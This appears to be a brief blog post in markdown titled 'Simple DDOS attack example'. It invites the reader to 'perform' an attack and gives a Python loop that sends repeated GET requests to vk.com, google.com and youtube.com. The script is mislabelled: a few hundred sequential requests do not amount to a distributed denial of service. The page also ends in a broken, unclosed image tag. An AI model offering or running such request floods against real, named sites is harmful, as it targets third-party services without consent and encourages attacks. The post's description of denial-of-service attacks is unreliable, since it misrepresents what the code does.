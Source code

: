 ```yaml
---
title: "Simple DDOS attack example"
date: 2020-04-26
---
```


# Simple DDOS attack examples

Let me show you simple ddos attack that you can perform

Python code block:
```python
    import requests

    sites = ['https://vk.com', 'https://google.com', 'https://youtube.com']
    for site in sites:
        for i in range(100):
            r = requests.get(site)
            print(site, i, r.status_code)
```

Here's an image:
<img src="{{ site.url }}{{ site.baseurl }}"
